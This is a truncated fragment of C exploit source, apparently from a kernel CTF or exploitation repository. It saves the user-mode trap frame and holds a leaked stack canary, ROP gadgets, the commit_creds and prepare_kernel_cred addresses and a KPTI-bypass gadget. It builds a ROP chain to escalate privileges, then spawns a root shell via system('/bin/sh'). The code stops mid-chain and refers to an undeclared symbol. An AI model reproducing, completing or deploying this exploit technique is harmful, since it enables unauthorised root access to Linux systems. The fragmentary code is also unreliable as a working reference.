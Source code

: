 ```c
struct trap_frame{
    void *rip;
    unsigned long long cs;
    unsigned long long eflags;
    void *rsp;
    unsigned long long ss;
}__attribute__((packed));
struct trap_frame tf;
unsigned long long tf_addr = &tf;

long long unsigned canary;
long long unsigned base;
long long unsigned gadget1;
long long unsigned gadget2;
long long unsigned gadget3;
long long unsigned ksymtab_commit_creds;
long long unsigned ksymtab_prepare_kernel_cred;
long long unsigned kpti_gadget;
long long unsigned tmp_store;
int fd;

void init_tf_work(void){
    __asm__ volatile(".intel_syntax noprefix;"
        "mov tf+8, cs;"    //set cs
        "pushf;pop tf+16;"       //set eflags
        "push rsp;pop tf+24;"
        "mov tf+32, ss;");
    tf.rip = 0x100000;
    tf.rsp -= 8;
    printf("[*] Reg saved cs = %llx, ss = %llx, flags = %llx, user_sp = %llx\n", tf.cs, tf.ss, tf.eflags, tf.rsp);
}

unsigned long long u64(char * s){
    unsigned long long result = 0;
    for (int i = 7 ; i >=0 ;i--){
        result = (result << 8) | (0x00000000000000ff & s[i]);
    }
    return result;
}

void get_shell2(){
        printf("[!!] your id is %d\n", getuid());
        system("/bin/sh");
}

void get_shell(){
        __asm__(
                "mov tmp_store, rax;"
               );
        char buf[0x150];
        memset(buf, '\x00', 0x150);
        unsigned long long *ropchain = (long long unsigned *)buf;
        int i = 16;
        ropchain[i++] = canary;
        ropchain[i++] = 0;
        ropchain[i++] = 0;
        ropchain[i++] = 0;
        ropchain[i++] = gadget1;
        ropchain[i++] = tmp_store;
        ropchain[i++] = commit_creds;
        ropchain[i++] = kpti_gadget;
        ropchain[i++] = 0;
```